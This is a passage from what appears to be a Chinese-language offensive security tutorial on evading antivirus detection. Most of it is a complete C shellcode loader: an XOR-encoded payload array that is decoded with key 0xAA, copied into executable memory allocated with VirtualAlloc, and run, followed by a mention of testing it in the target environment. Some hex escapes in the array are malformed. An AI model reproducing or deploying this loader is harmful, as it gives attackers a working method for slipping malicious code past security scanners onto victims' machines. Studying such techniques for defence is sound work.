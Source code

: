 我们可以看到，在执行时，编码的 shellcode 被解码为其原始形式并执行。让我们编写一个简单的 C 程序来演示这一点，如下所示：

```
#include"stdafx.h"
#include <Windows.h>
#include <iostream>
#include <iomanip>
#include <conio.h>
unsigned char encoded[] =
"\x14\x3f\x18\x3f\x54\x77\x6e\x73\xde\x8e\x5e\xf0\x9b\x63\x1b"
"\xfc\x29\x68\xae\x9b\xd8\xa5\xa9\xd8\x30\xfa\xca\xa8\xe6\xbc"
"\x21\x51\x26\xdd\xaf\xb4\x17\x1d\xdb\xc0\x47\xad\x5b\x94\xab"
"\x49\xfd\x01\x38\x2b\xd5\x76\xb9\x85\xc\x79\x0e\xb6\x30\xd8"
"\x8c\xf5\x65\xfe\xbd\x3a\xa8\x3e\xfa\x67\x45\x6e\xa3\x33\xe8"
"\x53\x94\x7d\xf4\xd8\xa6\x53\x4c\xcd\x6e\x52\x6d\x93\xf5\x9"
"\x6d\x12\x26\x75\xeb\x9\x7b\x70\xb2\xf2\x8b\x3a\x30\x22\xd2"
"\xf3\x9a\x5f\x1f\x2\xe2\x9b\xdb\xf9\x95\xe1\x28\x44\x92\x22"
"\x53\x9e\x66\xa1\xf3\x14\xdc\x5a\xf2\xb9\x4a\xd9\xfc\x72\xcc"
"\x71\xd0\x75\x01\xfd\x2c\xfe\xe0\x12\xa5\x84\xc3\xb6\xfe\x5e"
"\xba\xaf\x9a\xf1\x86\xff\x31\xae\x22\xb7\x9b\xfa\xb\xd5\xf7"
"\x3f\x22\xd5\x37\x1b\x31\xa6\x5\xb4\x9a\x31\x29\x7d\x34\xf6"
"\x38\x5a\x8a\x18\xb6\x3a\x74\x99\xf6\x12\x8e\xcd\xa6\x78\x27"
"\xa2\x6d\x88\x9b\x77\xd7\x83\xf\xb4\x83\x8d\xfa\x5d\x81\x92"
"\x21\xf1\x8\x74\x51\x99\x4e\xe4\x16\x49\xee\x95\xfe\x44\xe1"
"\xca\xee\xbb\x2c\xa3\x45\x54\xd4\xcb\x32\xcd\x71\x53\x93\xcd"
"\x5c\x2d\xd0\x49\x58\xd2\x9e\xae\xdd\xc1\x8b\xd9\xdd\xd9\x18"
"\xbc\xdd\xb3\x1c\x1a\x8a\x1f\x1e\x4f\xac\xb0\xec\x6a\xbf\xf7"
"\x12\x3f\x85\xbf\x25\xa9\xa5\xeb\x5a\x69\x25\x3b\xc\x23\x25"
"\x53\xb4\x40\x76\xb6\xcb\x8d\xdb\x27\x5e\x62\x89\xcb\xf4\xb"
"\x63\xf6\x2\xc4\x98\x21\x00\xc3\x66\xe3\x2f\x7b\xe\x1b\x3f"
"\x4b\x9e\x72\xbf\x18\xf6\xbd\x93\x97\x6\x72\x3a\xbc\xe\xf9"
"\xdf\x7e\xff\xc9\xf6\x12\x61\xce\xf9\xcb\x56\xb5\xb6\x3c\x57"
"\x75\x9e\x59\x54\x75\x92\xaf\x69\xa3\xab\xd9\xa8\x20\x9c\x26"
"\x9b\x5\xb5\xad\x93\x49\xca\xa8\xaa";
int main()
{
 void *exec = VirtualAlloc(0, sizeof encoded, MEM_COMMIT, PAGE_EXECUTE_READWRITE);

 for (unsigned int i = 0; i < sizeof encoded; ++i)
 {
  unsigned char val = (unsigned int)encoded[i] ^ 0xAA;
  encoded[i] = val;
 }
 memcpy(exec, encoded, sizeof encoded);
 ((void(*)())exec)();
 return 0;
}
```

再次，一个非常直接的程序；我们使用`VirtualAlloc`函数在调用程序的虚拟地址空间中保留空间。我们还使用`memcpy`将解码后的字节复制到`VirtualAlloc`指针保留的空间中。接下来，我们执行指针处保存的字节。所以，让我们测试一下我们的程序，看看它在目标环境中的运行情况。我们将按照相同的步骤进行；让我们找到程序的 MD5 哈希如下：

![](img/5618bdf3-5ade-4f9e-b88b-976fbf72bf8d.png)

